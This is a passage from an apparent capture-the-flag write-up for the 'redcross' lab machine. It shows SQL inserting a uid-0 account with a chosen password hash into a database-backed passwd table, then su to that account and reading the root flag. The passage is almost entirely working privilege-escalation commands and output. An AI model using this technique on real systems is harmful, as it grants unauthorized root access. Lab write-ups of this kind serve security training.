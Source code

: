 ```
unix=> insert into passwd_table (username, passwd, uid,gid, homedir) values ('snowscan_root','$6$oTkOZvS...',0,0,'/root');
INSERT 0 1
unix=> select * from passwd_table;
   username    |                                               passwd                                               | uid  | gid  | gecos |    homedir     |   shell   
---------------+----------------------------------------------------------------------------------------------------+------+------+-------+----------------+-----------
 tricia        | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp.                                                                 | 2018 | 1001 |       | /var/jail/home | /bin/bash
 snowscan      | $1$ANxI97CM$NZZ3OJtS7FevXzzfR//ih0                                                                 | 2020 | 1001 |       | /var/jail/home | /bin/bash
 snowscan2     | $6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UCzEdZxhzd/MbSy2R5Kp1x4rtNCgHsJ1 | 2022 |    0 |       | /root          | /bin/bash
 snowscan_root | $6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UCzEdZxhzd/MbSy2R5Kp1x4rtNCgHsJ1 |    0 |    0 |       | /root          | /bin/bash
(4 rows)
```

We can't SSH in with this account because of the SSH server settings:

```console
snowscan2@redcross:/etc/ssh$ grep -i root sshd_config
PermitRootLogin prohibit-password
```

But we can `su` to the new user and get the root flag

```console
snowscan2@redcross:/etc/ssh$ su -l snowscan_root
Password:

snowscan_root@redcross:~# id
uid=0(snowscan_root) gid=0(root) groups=0(root)

snowscan_root@redcross:~# cat /root/root.txt
892a1f...
```